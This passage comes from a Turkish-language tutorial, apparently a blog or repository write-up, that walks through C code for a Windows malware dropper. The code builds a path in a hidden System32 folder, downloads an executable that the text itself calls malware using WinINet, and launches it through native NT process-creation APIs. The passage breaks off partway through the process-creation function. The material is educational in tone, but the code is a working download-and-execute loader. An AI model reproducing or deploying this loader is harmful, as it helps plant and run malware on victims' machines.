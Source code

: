 Daha sonnra snprintf ile ExecutablePath değişkenine ExecutableName değişkenin değerini ekleyerek malware'in tam yolunu oluşturuyoruz (şuan ki program sonucuna göre **C:\\Windows\\System32\\HiddenFile\\malwarename.exe** olacaktır). Eğer bu işlem başarısız olursa hata mesajı vererek programı sonlandırıyoruz.

```c
Result = DownloadExecutable(ExecutableUrl, ExecutablePath);
if (!Result) {
    Error = GetLastError();
    if (Error != ERROR_ALREADY_EXISTS) {
        printf("[-] Failed to Download Executable! Error Code: 0x%lx\n", GetLastError());
        return -1;
    }
    printf("[*] The executable is already downloaded.\n");
}
else {
    printf("[+] The Executable Downloaded!\n");
}
```

Daha sonra DownloadExecutable fonksiyonunu çağırarak malware'i indiriyoruz. Bu fonksiyonda wininet kullanılarak dosya indirme işlemi gerçekleştirilir. Eğer bu işlem başarısız olursa hata mesajını bastırmadan önce verilen hatayı ERROR_ALREADY_EXISTS ile karşılaştırarak, eğer bu hata kodu ile aynıysa bu durumda dosyanın zaten indirildiğini anlarız ve işlemlere devam ederiz.

```c
snprintf(PathForUnicode, sizeof(PathForUnicode), "\\??\\%s", ExecutablePath);

MultiByteToWideChar(CP_ACP, 0, PathForUnicode, -1, UnicodeExecutablePath, 256);
RtlInitUnicodeString(&ImagePath, UnicodeExecutablePath);

Status = CreateTargetProcess(ImagePath, &HandleNewProcess);
if (!NT_SUCCESS(Status)) {
    printf("[-] Failed to Create Process! NTSTATUS Code: 0x%08X\n", Status);
    return -1;
}
```

Daha sonra ExecutablePath değişkenini PathForUnicode değişkenine başına '\\??\\' prefix ile kopyalayarak, bu değişkeni WCHAR bir tipine dönüştürüyoruz. Buradaki amacımız tam elde ettiğimiz malware yolunu UNICODE_STRING'e çevirmek ve Process oluşturması için CreateTargetProcess fonksiyona iletmek.

Daha sonra RtlInitUnicodeString fonksiyonu ile UnicodeExecutablePath değişkenini ImagePath değişkenine dönüştürüyoruz ve CreateTargetProcess fonksiyonuna bu değişkeni ve HandleNewProcess değişkenini ileterek yeni bir process oluşturmasını sağlıyoruz. 

```c
NTSTATUS CreateTargetProcess(UNICODE_STRING ImagePath, PHANDLE HandlePtr) {

    Status = RtlCreateProcessParametersEx(&ProcessParameters, &ImagePath, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, \
        RTL_USER_PROCESS_PARAMETERS_NORMALIZED);
    if (!NT_SUCCESS(Status)) {
        return Status;
    }
    CreateInfo.Size = sizeof(CreateInfo);
    CreateInfo.State = PsCreateInitialState;

```

